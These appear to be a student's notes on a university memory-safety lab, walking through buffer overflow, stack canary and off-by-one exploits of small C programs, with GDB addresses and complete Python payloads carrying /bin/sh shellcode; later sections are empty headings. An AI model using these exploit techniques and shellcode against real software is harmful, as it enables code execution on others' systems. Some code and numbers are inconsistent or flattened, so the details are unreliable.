


# Preliminaries
## Attack Workflow
> [!important]
> The output of `egg` is forwarded to the input file, so `print` statements in `egg` will be written to the file.
> 
> Whatever bytes are printed from the `egg` file will be sent as input to the vulnerable program. Note that at the top of all of our files, including the `egg` file, is a [shebang line](https://en.wikipedia.org/wiki/Shebang_(Unix)). The shebang line tells the operating system that this executable should be run as a Python file:
> 


 
## Login
> [!important]
> `ssh -p 16122 username@127.0.0.1`


## GDB Layout
> [!important]
> We first run `gdb`, then choose one of the following options(src is the most used one):
> 


# Q1 Buffer Overflow Attack I - Easy
> [!note]
> username: `remus`
> password: `ilearned`


## Vulnerable Code
> [!code]
```c
#include <stdio.h>

void orbit(void) {
    char buf[8];
    gets(buf);  // Vulnerable
}

int main(void) {
    orbit();
    return 0;
}

```


## Main Idea
> [!note]
> The code is vulnerable because `gets(buf)` does not check the length of the input from the user, which lets an attacker write past the end of the buffer. So we could use buffer overflow attack scheme. 
> 
> Since the shellcode is long(more than 16 bytes), and the buffer is defaulted to be 16 bytes, so we can just put the shellcode starting from the address of the buffer. Instead, we put the shellcode at the stack frame of `orbit()`'s caller and overwrite the `RIP` of `orbit()` with the address of the `SHELLCODE`. 


## Magic Numbers
> [!note]
> First, we print out nothing from the `egg` file(no input to `orbit` program). We get the following:
> 
> By doing this, we know:
> - The location of the `sfp`(at address `0xffffd808`)and `rip`(which is at address `0xffffd80c`, which we want to overwrite)
> - The starting address of the `buf`, which is at address `0xffffd7f8`, 16 bytes below the `sfp`.


## Exploit Structure
> [!note]
> Here is the stack diagram:
> 
> The explit has three parts:
> 1. Writing 20 bytes of padding characters to overwrite the `buf` and `sfp`.
> 2. Overwrite the `rip` with the starting address of the `SHELLCODE`, which is `0xffffd80c+0x04=0xffffd810`
> 3. Finally, insert the shellcode directly after the `rip`.
> 
> This cause the `orbit` function to start executing the `SHELLCODE` at address `0xffffd810` when it returns.


## Exploit GDB Output
> [!note]
> When we ran GDB after inputting the malicious exploit string, we got the following output:
> 
> After 20 bytes of garbage (`\x97`), the rip is overwritten with `0xffffd810`, which points to the shellcode directly after the rip.


## Solution of Egg
> [!code]
> The final content of `egg` file could be:
```python
#!/usr/bin/env python3 import sys 
# Configure Python to print text strings like byte strings sys.stdout.reconfigure(encoding='latin1') 

SHELLCODE = \ '\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97' \ '\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97\x97' \ '\x10\xd8\xff\xff' \ '\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a' \ '\x47\x58\xcd\x80\x31\xc0\x50\x68\x2d\x69' \ '\x69\x69\x89\xe2\x50\x68\x2b\x6d\x6d\x6d' \ '\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f' \ '\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x89' \ '\xe1\x31\xd2\xb0\x0b\xcd\x80' 

print(SHELLCODE)
```


# Q2 Buffer Overflow Attack II - Easy
> [!overview]
> 


## Vulnerable Code
> [!code]
> `telemetry` is the vulnerable C program in this question. It takes a file and prints out its contents, but it expects the file to be specially formatted: The first byte of the file specifies its length, followed by the actual file.
> 
> The program also implements a check to make sure the buffer isn’t too large.
> 
```c
#include <stdint.h>
#include <stdio.h>
#include <string.h>

void display(const char *path) {
    char msg[128]; // Vulnerable buffer
    int8_t size;
    FILE *file;
    size_t bytes_read;

    memset(msg, 0, 128);

    file = fopen(path, "r");
    if (!file) {
        perror("fopen");
        return;
    }
	// Read a number from the file at `path`
    bytes_read = fread(&size, 1, 1, file);
    if (bytes_read == 0 || size > 128) {
        return;
	}

    // Read `size` number of one-byte from the file at `path`
    bytes_read = fread(msg, 1, size, file);

	// Print the string to the standard output. Append a `\n` at the end.
    puts(msg);
}


int main(int argc, char **argv)
{
    if (argc != 2) {
        return 1;
    }

    display(argv[1]);
    return 0;
}

```


## Main Idea
> [!note]
> First, we print out nothing from the `egg` file(no input to `orbit` program). We get the following:
> 
> By doing this, we know:
> - The location of the `sfp`(at address `0xffffd7b8`)and `rip`(which is at address `0xffffd7bc`, which we want to overwrite)
> - The starting address of the `msg`, which is at address `0xffffd728`, 144 bytes below the `sfp`.
> - The file that the program read the data from is called `navigation`，but we don't have it, so we have to create this.
> 
> 
> The key vulerabilities of this piece of code are related to implicit type casting:
> 
> 1. At line 20, `size > 128` can be circumvented if `size < 0`.
> 2. At line 25, the third argument of `fread()` is `size_t`, so if we pass in `size < 0` it will be implicitly converted to `unsigned int`, which means the maximum number of bytes that can be read from the file is 255 bytes instead of 127 bytes, which could be where we start our attack.
> 


## Magic Numbers
> [!code]
> 
> We find that saved ebp is 144 bytes above the `msg`.


## Exploit Structure
> [!code]
> 
> We need to overwrite `144 + 4 = 148` bytes(**buffer until eip**) with padding, and 4 bytes that has memory address of our shellcode. In detail, we should have the following content in the `navigation` file:
> 1. A one-byte int, we choose it to be `148 + 4 + 57 + 1 = 210`(0x11010010), which means we need in total read 210 bytes from the file to the msg buffer. But actually any number greater than 210 and less equal to 255 would work.
> 1. `148` is the padding to the buffer and saved ebp. We choose padding to be `\x97`.
> 2. `4` bytes of the address of the shell code. `4` is the 4-byte address of our shell code which is `\xc0\xd7\xff\xff`.
> 3. `57` is the width of the shell code. 
> 4. `1` is the `\0` at the end to prevent segment fault.


## Exploit GDB Output
> [!code]
> 


## Solution Egg
> [!code]
```python
#!/usr/bin/env python3 import sys 
# Configure Python to print text strings like byte strings. Don't remove this! 

sys.stdout.reconfigure(encoding='latin1') 

SHELLCODE = \ '\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a' \ '\x47\x58\xcd\x80\x31\xc0\x50\x68\x2d\x69' \ '\x69\x69\x89\xe2\x50\x68\x2b\x6d\x6d\x6d' \ '\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f' \ '\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x89' \ '\xe1\x31\xd2\xb0\x0b\xcd\x80' 

### YOUR CODE HERE ### print('\xd2'+'\x97'*148+'\xc0\xd7\xff\xff'+SHELLCODE+'\0')
```


# Q3 Stack Canary - Medium
> [!overview]
> `username`: polaris
> `password`: tolearn
> 
> For this question, **stack canaries are enabled**. You need to make sure the value of the canary isn’t changed when the function returns, but you still need to overwrite the RIP.
> 
> More detail see [Interactive Stack Canary Example](3_Mitigating_Vulnerabilities.md#Stack%20Canaries%20-%20Step%203#Example)


## File Structure
> [!def]
> **Exploit Executable:**
> 
> This file will invoke `interact`, which send inputs and receive output from `dehexify` executable.
> 
> So if we run `./exploit`, `interact` python script will be executed.


## Vulnerable Code
> [!code]
> 
```c
#include <stdio.h>
#include <string.h>

#define BUFLEN 16

/* Hint: No memory safety errors in this function */
int nibble_to_int(char nibble) {
    if ('0' <= nibble && nibble <= '9') {
        return nibble - '0';
    } else {
        return nibble - 'a' + 10;
    }
}

void dehexify(void) {
    struct {
        char answer[BUFLEN];
        char buffer[BUFLEN];
    } c;
    int i = 0, j = 0;

	// Will append \0 at the end
    gets(c.buffer); // Vulnerability, get input from stdin

    while (c.buffer[i]) {
        if (c.buffer[i] == '\\' && c.buffer[i+1] == 'x') {
            int top_half = nibble_to_int(c.buffer[i+2]);
            int bottom_half = nibble_to_int(c.buffer[i+3]);
            c.answer[j] = top_half << 4 | bottom_half;
            i += 3;
        } else {
            c.answer[j] = c.buffer[i];
        }
        i++; j++;
    }

    c.answer[j] = 0; // Trick here, need to get rid of 0
    printf("%s\n", c.answer);
    fflush(stdout);
}

int main(void) {
    while (!feof(stdin)) {
         dehexify();
    }
    return 0;
}

```


## Main Idea
> [!code]
> Polaris includes a stack canary, which protects against typical stack smashing by generating a random 4-byte value at runtime directly adjacent to the sfp. Our approach involved exploiting the input processing of dehexify to read the canary value, so that during the buffer overflow, the canary value can be preserved.
> 
> The goal being to insert the Shellcode into the stack while preserving stack canary values, our exploit first read the canary value. 
> 
> The function dehexify loops over all elements in c.buffer sent through p.send(s), and upon detecting the sequence "\x", it reads in the following 2 bytes of c.buffer without inspection regardless of their values. As such, we sent 12 bytes of padding and "\\x", which skips over the terminator into the canary in stack memory.  **Then the stack canary's value will be copied to the `answer[13:17]`(which is an overflow actually).** This is the key part.
> 
> The response containing the canary values were collected using the `p.recv(17)[13:17]` function. Finally, sending the concatenation of 32 bytes of garbage, the canary, 12 bytes of garbage, the little-endian formatted address `\xf0\xd7\xff\xff`, and the SHELLCODE overwrites the stack as desired. This replaces the RIP with an address that points to the SHELLCODE provided, yet the canary appears unchanged.


## Magic Numbers
> [!code]
> 
> We know that `buffer` is 24 bytes below the stack canary.
> - Start address of `buffer`:`0xffffd7cc` .
> - Start address of `stack canary`: `0xffffd7e4` .
> - Making difference we get `24` bytes in total.


## Exploit Structure
> [!code]
> 
> Across different run, we find the location of stack canary, which is at `0xffffd7dc`, which is different from in lecture(which is located 4 bytes below `sfp`).
> 
> 
> 
> 


   

## Exploit GDB Output
> [!code]
> **Before exploiting:**
> 
> **After exploiting:**
> 
> 
> **The Exploit Output:**
> 
> 


## Solutions
> [!code] egg
> 
```c
#!/usr/bin/env python3

import scaffold as p
from scaffold import SHELLCODE
import sys

# Configure Python to print text strings like byte strings. Don't remove this!
sys.stdout.reconfigure(encoding='latin1')

### YOUR CODE STARTS HERE ###

# Program start:
p.start()

# Send
p.send('A'*12+'\\x\n')

program_output = p.recv(17)

stack_canary = program_output[-4:]
print([hex(ord(c)) for c in stack_canary])

p.send('A'*32 + stack_canary + 'A'*12 + '\xf0\xd7\xff\xff' + SHELLCODE)

### YOUR CODE ENDS HERE ###
```


# Q4 Off-by-one Attack - Medium
> [!overview]
> See [Off-By-One Vulnerabilities(Fencepost)](2_Memory_Vulnerability.md#Off-By-One%20Vulnerabilities(Fencepost))
> `username`: vegas
> `password`: whyishould


## File Structure
> [!important]
> The `exploit` script in this question is slightly different. The output of `egg` is used as an _environment variable_, which means its value is placed at the top of the stack. The output of `arg` is used as the input to the program, passed as an argument on the command line (in the `argv` array to `main`).
> 
> Here we see the program `exploit` will send an environment variable `EGG=$(./egg)` which is the output from `egg` file to the `flipper` program, which can access it by `p environ[4]` in GDB.
> - `environ[0]` is "SHLVL=1"
> - `environ[1]` is "PAD=", `\377` <repeats 196 times>
> - `environ[2]` is "TERM=screen"
> - `environ[3]` is "SHELL=/biun/sh"
> - `environ[4]` is "EGG=<user_input>"
> 
> Also `flipper` takes in an argument `$(./arg)`, which is the output from program `arg`, which can be fetched by `argv[1]`.


## Vulnerable Code
> [!code]
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flip(char *buf, const char *input) {
    size_t n = strlen(input);
    int i;
	// This is vulnerable, where i <= 64 indicates that
	// we could overwrite one more buffer if the input 
	// length n > 64. Or more precisely, is 65.
    for (i = 0; i < n && i <= 64; i++) {
        buf[i] = input[i] ^ 0x20;
    }
    // Can be circumvented if i = 65 from above loop.
    while (i < 64) {
        buf[i++] = '\0';
    }
}


// Note that here we have two functions to make OFF-By-One Attack possible since the first time invoke return
// Nothing happens actually, only the EBP has been set to 
// our maliciously designed location.
// But when the dispatch returns, we have to move ESP to malicious EBP, making the attack possible.
void invoke(const char *in) {
    char buf[64];
    flip(buf, in);
    puts(buf);
}

void dispatch(const char *in) {
    invoke(in);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        return 1;
    }

    dispatch(argv[1]);
    return 0;
}
```


## Main Idea
> [!code]
> In this problem, since each input byte is `XOR-ed` with `0x20`, which says that we want to decrease the original result by 32.(xor on the 6-th bit). Since our buf is 64 bytes, so we should put our `Faked EBP` at 32 bytes below the `EBP` of `invoke`. `Fake RIP` is just above it.
> 
> Since putting `SHELLCODE` in the buf is complicated, since we need to xor it bit-by-bit.
> 
> Thus `SHELLCODE` is generally put at the environment variable of the program, whose address is typically fixed across multiple execution. In this problem, it is fixed to be `0xffffdf9c`. 
> 
> Thus we just need to write our `FAKED RIP` to be `0xdfdfffbc` since `0xdfdfffbc ^ 0x00100000 = 0xffffdf9c`.
```c
#!/usr/bin/env python3

import sys

# Configure Python to print text strings like byte strings. Don't remove this!
sys.stdout.reconfigure(encoding='latin1')

### YOUR CODE HERE ###
print('A'*36+'\xbc\xff\xdf\xdf'+'A'*24+'\x70')
```


## Magic Numbers
> [!code]
> 
> We have `EBP` at `0xffffd770` and `RIP` at `0xffffd774` .


## Exploit Structure
> [!concept] Stack Structure
> 


## Exploit GDB Output
> [!code]
> **Buf before our exploit:**
> 0xffffd730:     0x00000000      0x00000001      0x00000000      0xffffd8eb
> 0xffffd740:     0x00000002      0x00000000      0x00000000      0x00000000
> 0xffffd750:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
> 0xffffd760:     0x00000000      0x00000000      0x00000000      0x00000000
> 0xffffd770:     0xffffd77c
> 
> **Buf after our exploit**
> 0xffffd730:     <font color="#4f81bd">0x61616161      0x61616161      0x61616161      0x61616161</font>
> 0xffffd740:     <font color="#4f81bd">0x61616161      0x61616161      0x61616161      0x61616161</font>
> 0xffffd750:     <font color="#4f81bd">0x61616161</font>      <font color="#ff0000">0xffffdf9c</font>      <font color="#4f81bd">0x61616161      0x61616161</font>
> 0xffffd760:     <font color="#4f81bd">0x61616161      0x61616161      0x61616161      0x61616161</font>
> 0xffffd770: <font color="#ff0000">0xffffd750</font>
> 


## Solution Files
> [!code] egg
```c
#!/usr/bin/env python3

import sys

# Configure Python to print text strings like byte strings. Don't remove this!
sys.stdout.reconfigure(encoding='latin1')

SHELLCODE = \
    '\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a' \
    '\x47\x58\xcd\x80\x31\xc0\x50\x68\x2d\x69' \
    '\x69\x69\x89\xe2\x50\x68\x2b\x6d\x6d\x6d' \
    '\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f' \
    '\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x89' \
    '\xe1\x31\xd2\xb0\x0b\xcd\x80'

### YOUR CODE HERE ###
print(SHELLCODE)
```

> [!code] arg
```c
#!/usr/bin/env python3

import sys

# Configure Python to print text strings like byte strings. Don't remove this!
sys.stdout.reconfigure(encoding='latin1')

### YOUR CODE HERE ###
print('A'*36+'\xbc\xff\xdf\xdf'+'A'*24+'\x70')
```

# Q5 Buffer Overflow Attack III
> [!overview]
> `username`: deneb
> `password`: neveruse

## File Structure


## Vulnerable Code
> [!code]
```c
#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <unistd.h>

#define MAX_BUFSIZE 128
#define FILENAME "hack"

/* Hint: No memory safety errors in this function */
#define EXIT_WITH_ERROR(message) do { \
    fprintf(stderr, "%s\n", message); \
    exit(EXIT_FAILURE); \
} while (0);

/* Hint: No memory safety errors in this function */
int file_is_too_big(int fd) {
    struct stat st;
    fstat(fd, &st);
    return st.st_size >= MAX_BUFSIZE;
}

void read_file(void) {
    char buf[MAX_BUFSIZE];
    uint32_t bytes_to_read;
    int fd;
    ssize_t bytes_read;

    fd = open(FILENAME, O_RDONLY);
    if (fd == -1) {
        EXIT_WITH_ERROR("Could not find file!");
    }

    if (file_is_too_big(fd)) {
        EXIT_WITH_ERROR("File too big!");
    }

    printf("How many bytes should I read? ");
    fflush(stdout);
    if (scanf("%u", &bytes_to_read) != 1) {
        EXIT_WITH_ERROR("Could not read the number of bytes to read!");
    }

    bytes_read = read(fd, buf, bytes_to_read);
    if (bytes_read == -1) {
        EXIT_WITH_ERROR("Could not read!");
    }

    buf[bytes_read] = 0;
    printf("Here is the file!\n%s", buf);
    close(fd);
}

int main(void) {
    read_file();
    return 0;
}
```


## Main Idea

## Magic Numbers


## Exploit Structure


## Exploit GDB Output


# Q6 Format String 
## Vulnerable Code


## Main Idea

## Magic Numbers


## Exploit Structure


## Exploit GDB Output


# Q7 Stack Canary and ASLR
## Vulnerable Code


## Main Idea

## Magic Numbers


## Exploit Structure


## Exploit GDB Output